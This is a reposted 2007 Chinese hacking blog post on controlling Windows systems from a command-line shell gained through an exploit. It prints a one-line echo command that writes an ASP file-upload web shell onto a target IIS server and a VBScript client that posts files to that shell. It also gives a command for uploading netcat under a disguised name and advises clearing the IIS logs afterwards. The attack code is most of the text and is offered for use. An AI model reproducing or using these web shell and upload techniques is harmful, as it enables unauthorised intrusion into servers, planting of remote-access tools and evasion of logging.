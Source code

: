 ```yaml
---
title: Cmd模式下的入侵技术大全
description: 前言CmdShell(命令行交互)是黑客永恒的话题，它历史悠久并且长盛不衰。本文旨在介绍和总结一些在命令行下控制Windows系统的方法。这些方法都是尽可能地利用系统自带的工具实现的。文件传输对于溢出漏洞获得的cmdshell，最大的问题就是如何上传文件。由于蠕虫病毒流行，连接ipc$所需要的139或445端口被路由封锁。再加上WinXP系统加强了对ipc$的保护，通过ipc$及默认共享上传文件的手段基本无效了。ftp和tftp是两种可行的方法，介于其已被大家熟知，本文就不介绍了。还有三种大家熟悉的办法，作为总结我再提一下：1，用Echo命令写ASP木马。前提当然是目标主机上...
date: 2007-07-08 22:38:24
category: 技术文章
tags: ['技术类', '安全']
post_id: 67
alias: 67
ViewNums: 4624
---
```


转自:军团炎火's Blog

前言
Cmd Shell(命令行交互)是黑客永恒的话题，它历史悠久并且长盛不衰。
本文旨在介绍和总结一些在命令行下控制Windows系统的方法。这些方法都是尽可能地利用系统自带的工具实现的。

文件传输
对于溢出漏洞获得的cmd shell，最大的问题就是如何上传文件。由于蠕虫病毒流行，连接ipc$所需要的139或445端口被路由封锁。再加上WinXP系统加强了对ipc$ 的保护，通过ipc$及默认共享上传文件的手段基本无效了。ftp和tftp是两种可行的方法，介于其已被大家熟知，本文就不介绍了。还有三种大家熟悉的办法，作为总结我再提一下：

1，用Echo命令写ASP木马。
前提当然是目标主机上已经安装了IIS。
一般的ASP木马"体积"较大，不适合直接用echo命令写入文件，这里我提供一个小巧的。
直接给出echo版：
```
@echo ^<%with server.createobject("adodb.stream"):.type=1:.open:.write request.binaryread(request.totalbytes):.savetofile server.mappath(request.querystring("s")),2:end with%^> >up.asp
```
注意，只有一行，中间没有回车符。
生成的up.asp不能用浏览器访问，只能用下面这个脚本：
```
with wscript
if .arguments.count<3 then .quit
url=.arguments(0)&"?s="&.arguments(2)
fn=.arguments(1)
end with
with createobject("adodb.stream")
.type=1:.open:.loadfromfile fn:s=.read:.close
end with
with createobject("microsoft.xmlhttp")
.open "post",url,false:.send s
wscript.echo .statustext
end with
```
将其保存为up.vbs。假设目标IP为123.45.67.89，up.asp在IIS虚拟根目录下，需要上传的文件为nc.exe，上传后保存为mm.exe，相应的命令是：
```
cscript up.vbs <http://123.45.67.89/up.asp>  nc.exe mm.exe
```
注意，这个命令是在本地命令行中执行的，不要弄错了。另外，通过IIS上传会留日志，要记得清除哦。
